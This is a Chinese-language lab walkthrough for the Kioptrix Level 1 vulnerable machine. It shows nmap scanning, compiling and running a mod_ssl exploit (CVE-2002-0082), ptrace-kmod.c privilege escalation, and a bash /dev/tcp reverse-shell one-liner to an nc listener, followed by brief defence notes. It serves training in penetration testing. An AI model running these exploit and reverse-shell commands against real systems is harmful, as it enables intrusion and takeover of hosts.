



1.kioptrix level1
首先找ip地址，nmap 192.168.89.1/24 -sP 或者arp-scan -l 查询同一网段的主机
然后这里可以有几个方法去做，先讲apache 1.3.20的ssl远程缓冲溢出CVE-2002-0082，也可以用到的是linux 2.4.x内核时间差漏洞，CVE-2003-0201
**nmap 192.168.89.135 -sV -A** 扫描各个端口详细服务版本
然后得到apache 1.3.20 mod_ssl 2.8.4 各种版本信息
searchsploit Apache 1.3.20 搜索apache相关漏洞，或者也可以搜索mod_ssl 2.8.4,然后找到漏洞，这里可以去exploit库里面找，然后下载脚本
他这实际上是一个.c的程序，然后这个文件开头有对应的使用方法，要下载应该软件，然后这个.c需要编译成可执行文件gcc -o 470 47080.c -lcrypto，然后可以执行./470文件，发现实际上有很多版本的漏洞，找到对应的apache1.3.20的那个 ，这里实际上47080.c里面有对应的使用教程，
然后执行./470 | grep "1.3.20"找到相关漏洞，然后执行./470 0x6b 192.168.89.135 -c 50，然后就可以进入靶机服务器，然后这里报错，说ptrace-kmod.c文件无法下载，去47080里面找到这个文件，发现无法直接下载到靶机，先下载到主机，然后传给靶机，主机开python3 -m http.server 80，然后靶机
wget [http://192.168.89.134:80/ptrace-kmod.c](http://192.168.89.134:80/ptrace-kmod.c)下载文件 然后进行编译gcc -o exp ptrace-kmod.c 然后在执行exp，./exp就可以得到root权限 
，接着可以反弹shell  主机开nc -lvvp 12223 ,然后靶机 使用
bash -i >&/dev/tcp/192.168.89.134/12223 0>&1，就可以反弹shell到主机，然后可以执行代码
CVE 2002 0082（mod_ssl漏洞）
漏洞原因 Apache mod_ssl缓冲区溢出
modssl处理ssl会话缓存时，没有对要存储的数据容量进行检测，导致ssl数据容量包过大造成缓冲溢出，覆盖程序执行代码，导致攻击者注入的恶意代码被执行，从而获取靶机权限Apache
防护方式，然后这里可以用ptrace-kmod.c进行提权
1.升级mod-ssl的版本
2.禁止不必要的会话缓存
3.在waf拦截异常ssl会话缓存请求
CVE-2003-0201（samba漏洞）

​
ptrace-kmod.c提权原理

防护
1.升级linux内核版本
2.最小权限限制访问
3.检查和监控
4.补丁等

​
 Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b   Linux 2.4.X
​
